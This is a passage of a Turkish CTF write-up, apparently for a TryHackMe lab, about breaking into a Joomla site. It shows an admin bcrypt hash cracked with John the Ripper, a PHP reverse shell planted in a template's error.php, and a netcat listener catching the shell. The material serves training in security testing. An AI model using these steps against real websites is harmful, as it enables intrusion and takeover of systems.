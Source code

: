 ````
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
````

`admin`

#### Super Duper User! What is the password?

admin kullanıcısının şifresini hash olarak bulduk. Hash'i kıralım.

````console
┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (?)     
1g 0:00:00:06 DONE (2024-05-05 19:32) 0.1451g/s 151.5p/s 151.5c/s 151.5C/s bullshit..piolin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
````

`abcd1234`


#### At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

admin:abcd1234 ile giriş yapabiliriz. 

Configuration -> Templates -> Templates -> Beez3 Details and Files -> error.php dosyasına giderek [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) ekledim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Joker/images/10.png?raw=true)

netcat çalıştıralım.

````console
nc -nvlp 1234
````

Ardından değiştirdiğimiz error.php dosyasına gittiğimizde shell'imiz gelecek.

`/templates/beez3/error.php`

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Joker/images/11.png?raw=true)

#### This user belongs to a group that differs on your own group, What is this group?
